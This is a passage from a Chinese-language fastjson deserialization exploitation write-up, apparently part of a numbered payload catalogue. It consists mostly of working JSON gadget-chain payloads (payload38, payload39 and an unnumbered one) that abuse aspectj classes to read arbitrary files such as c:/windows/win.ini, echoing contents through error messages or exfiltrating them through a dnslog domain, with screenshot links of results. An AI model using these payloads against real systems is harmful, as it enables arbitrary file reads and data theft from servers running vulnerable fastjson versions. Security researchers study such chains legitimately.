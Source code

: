 ```json
}
```
![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697804625231-87224295-ec38-46e5-ae91-73f142cb9096.png#averageHue=%23bcdfd2&clientId=u1f249710-f72c-4&from=paste&height=1040&id=ub8a67470&originHeight=1040&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=165082&status=done&style=none&taskId=uaaccb6ad-e465-4428-ba7e-47f51d5580a&title=&width=1920)
也可以直接利用`JSON.parse`可以解析`[]`的特性直接一次打：
```json
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"c:/windows/win.ini"},"password":"admin"}]
```

![image-20231020204958021](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231020204958021.png)

#### 4.1.1.2 报错回显法

`payload38`：

```json
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"java.lang.Character"{"c":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"c:/windows/win.ini"}},"password":"admin"}]
```

![image-20231020212607508](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231020212607508.png)

#### 4.1.1.3 dnslog回显法（需要对方为mac环境且dnslog平台支持特殊符号）

`payload39`：

```json
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"1.txt"},"password":{"@type":"java.net.Inet4Address","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type": "java.lang.String""@type":"java.util.Locale","language":{"@type":"java.lang.String"{"$ref":"$"},"country":"aaa.qmc8xj4s.dnslog.pw"}}}}]
```

但是只有`mac`才支持`ping`带花括号的域名，所以我`Windows`这里会提示`deserialize inet adress error`：

![image-20231020213159191](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231020213159191.png)
